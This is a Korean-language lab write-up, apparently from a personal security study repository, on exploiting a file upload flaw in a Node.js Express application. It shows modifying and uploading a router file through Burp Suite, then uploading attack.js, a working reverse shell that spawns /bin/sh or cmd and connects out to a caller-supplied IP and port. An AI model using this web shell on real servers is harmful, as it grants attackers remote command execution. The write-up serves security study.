 # 파일 업로드 공격
---
## 1. 파일 업로드 취약점이란 ?
---
+ 파일 업로드 취약점은 웹 서버가 제공하는 파일 업로드 기능을 이용하여 확장자 검증 미흡으로 서버에 악의적인 파일이 업로드가 가능한 취약점이다. 
+ 공격자는 서버에서 실행될 수 있는 파일을 업로드하여 공격자가 원하는 기능을 동작하게 한다. 적절한 검증 없이 파일 업로드 기능을 제공할 때 발생하는 취약점이므로 확장자에 대한 검증을 적용해야 한다.

---
## 2. 공격방법
---
파일 다운로드 공격에서 다운받은 filedown.js 파일의 소스코드를 분석하여 아래와 같은 라우터 기능을 추가한다.
```js
router.use('/attack', require('../../../upload/attack.js'));
```
수정된 filedown.js를 Burpsuite를 통해 업로드 경로를 수정하여 업로드한다.

![수정된filedown.js업로드](https://user-images.githubusercontent.com/115529661/200773381-29c9c606-064a-4ed5-b177-f6b2c1e58fda.jpg)

filedown.js가 업로드 되는 것이 확인 되었으니 attack.js를 만들어 업로드를 진행해본다.
```js
var express = require("express");
var router = express.Router();

router.get("/", function(req, res) {
	var net = require("net"),
		cp = require("child_process"),
		sh = cp.spawn("/bin/sh",[]);     // 서버 OS가 리눅스 일 때
		sh = cp.spawn("cmd",[]);         // 서버 OS가 윈도우 일 때
	var client = new net.Socket();
	
	client.connect(req.query.port,req.query.ip,function(){
		client.pipe(sh.stdin);
		sh.stdout.pipe(client);
		sh.stderr.pipe(client);
	});
	return /a/;
});

module.exports = router;
```
![attack.js업로드](https://user-images.githubusercontent.com/115529661/200774037-1414f3da-e507-492f-ae38-5279ee5e923f.jpg)

attack.js가 정상적으로 업로드 된 것을 확인해 볼 수 있다.

업로드가 되었으니 웹쉘을 실행해본다.

![공격결과](https://user-images.githubusercontent.com/115529661/200774615-56c47ede-f23b-4de1-b6af-1f040d15fd3b.jpg)

웹쉘 실행결과 정상적으로 실행된다는 것을 확인할 수 있고, js파일 업로드와 업로드 된 파일이 실행되는 것으로 업로드 공격을 진행할 수 있다. 